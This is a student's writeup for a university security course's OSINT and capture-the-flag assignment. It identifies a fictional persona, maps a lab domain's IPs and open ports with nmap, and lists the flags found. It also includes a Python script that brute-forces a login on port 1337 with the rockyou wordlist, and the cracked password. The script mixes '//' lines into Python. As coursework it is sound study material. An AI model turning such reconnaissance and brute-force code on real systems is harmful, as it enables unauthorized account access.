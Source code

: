 # Writeup 2 - OSINT

Name: Tuan Le
Section: 0201

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examniation.

Digital acknowledgement: Tuan Le

## Assignment Writeup

### Part 1 (45 pts)

1. v0idcache's real name is Elizabeth Moffet

2. Elizabeth is the banking CEO at 13/37th National Bank and the URL is 
1337bank.money, the ip is 142.93.136.81

3. Twitter @v0idcache - I used Intel Techniques to find Usersherlock. I then 
used Usersherlock to search for the username and found the Twitter account.
Reddit u/v0idcache - I just googled v0idcache

4. I used dnsdumpster to obtain 5 ips and used Shodan to find information for each
216.87.155.33 - United States, VeriSign Infrastructure & Operations
216.87.152.33 - United States, VeriSing Infrastrcuture & Operations
142.93.136.81 - New York, United States, Digital Ocean
162.255.118.61 - Los Angeles, United States, Namecheap
162.255.118.62 - Los Angeles, United States, Namecheap

5. The 2 distinct flags
CMSC389R-{h1dd3n_1n_plain_5ight} - Found by looking at page source
CMSC389R-{e@5y_p3@5y-s0urc3_l3ak} - Found by looking at page source and further
examining the source of authenticate, control searched for "password" and found
username and password.

6. I performed nmap -p 1-1000 and nmap -p 1000-2000 to get the following ports
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
1337/tcp  open   waste

7. Based on the port scanner on pentest-tools.com, the operating system is
Ubuntu Linux

8. I found 3 other flags
CMSC389R-{h1ding_fil3s_in_r0bots_L0L} - Found by running 1337bank.money/robots.txt
then I found "Disallow: / secret_directory. I then ran 1337bank.money/secret_directory
CMSC389R-{h0w_2_iNt0_DNS_r3c0Rd5} - Found by using dnsdumpster with 1337bank.money
CMSC389R-{0M3G4LUL_G3T_pWN3d_N00b} - Found by just googling v0idcache and finding a
reddit post 

### Part 2 (75 pts)

I used the python stub code provided and added to it. I had to implement python
socket I/O such as reading and printing.

My code:

// Tuan Le
// UID: 115260047
// CMSC 389R (0201)

import socket

// IP address
host = "142.93.136.81"

// Open port to connect to
port = 1337 

// Wordlist file: "/usr/share/wordlists/rockyou.txt"
wordlist = open("/usr/share/wordlists/rockyou.txt", "r")

def brute_force():
    
    // Sockets: https://docs.python.org/2/library/socket.html

    username = "v0idcache"   # Hint: use OSINT

    // Iterate through each password in the wordlist and reapeatedly attempt to
    // log into v0idcache's server
    for password in wordlist:

        // Establish socket connection
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((host, port))
        
        // Reading username prompt and sending username
        data = s.recv(1024)      # Receives 1024 bytes from IP/Port
        s.send("v0idcache\n")
        print(data + username)

        // Reading password prompt and sending password
        data = s.recv(1024)      # Receives 1024 bytes from IP/Port
        s.send(password)
        print(data + password)

    s.close()

if __name__ == '__main__':
    brute_force()

I found 2 flags

CMSC389R-{brut3_f0rce_m4ster} - Found the username to be v0idcache and the password
linkinpark. Once I gained access, I cd into home and cat flag.txt

CMSC389R-{YWX4H3d3Bz6dx9lG32Odv0JZh} - Once I had access, I cd into home then cd
files then I cat a file called AB4300.txt which I found within a chat between 
v0idcache and fl1inch on pastebin.
